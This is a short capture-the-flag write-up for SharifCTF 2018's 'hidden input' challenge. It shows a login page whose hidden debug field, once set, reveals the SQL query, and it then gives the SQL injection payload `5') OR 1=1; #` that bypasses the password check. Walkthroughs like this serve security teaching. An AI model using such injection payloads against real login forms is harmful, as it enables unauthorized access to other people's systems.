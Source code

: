 ```yaml
---
layout:     post
title:      "SharifCTF 2018 - hidden input"
date:       2018-02-04 0:00:00
author:     "W3ndige"
permalink: /:title/
category: 'Write-Ups'
---
```

Another challenge [SharifCTF](http://ctf.certcc.ir/ctf8/) called ***hidden input***.

- Category: Forensics
- Points: 50

{% highlight text %}
Login if you can :)
{% endhighlight %}

### Solution

At first we are presented with a simple webpage containing 2 inputs - login and password.

{% highlight html %}
<!DOCTYPE html>
<html>
<head>
	<title></title>
	<link href='fonts.css' rel='stylesheet' type='text/css'>
	<link rel="stylesheet" type="text/css" href="asset/style.css">
</head>
<body>
	<div class="logo"><div class="lspan">SharifCTF</div></div>
	<form method="POST" action="login.php">
		<div class="login-block">
			<h1>Login</h1>
			<input type="text" value="" placeholder="Username" id="Username" name="Username"/>
			<input type="password" value="" placeholder="Password" id="Password" name="Password"/>
			<input type="hidden" name="debug" id="debug" value="0">
			<button>Login</button>
		</div>
	</form>
</body>
</html>
{% endhighlight %}

But upon inspecting the source code, we can see a hidden input - called debug. After changing its value to `1` and logging in, in addition to the login failed message we can see whole SQL query.

{% highlight sql %}
username: admin
password: asd
SQL query: SELECT * FROM users WHERE username=('admin') AND password=('asd')
{% endhighlight %}

Let's construct a simple SQL injection in order to get into the webpage. Firstly, we have to add some value into the password variable, then add `'` character to close the previous quotation mark an finally SQL statement that will trick the query `OR 1=1;`. Last step is to comment out left characters from the original query.

{% highlight sql %}
username: admin
password: 5') OR 1=1; #
SQL query: SELECT * FROM users WHERE username=('admin') AND password=('5') OR 1=1; #')
{% endhighlight %}

### Tools
No external tools used

### References
[https://www.owasp.org/index.php/SQL_Injection](https://www.owasp.org/index.php/SQL_Injection)
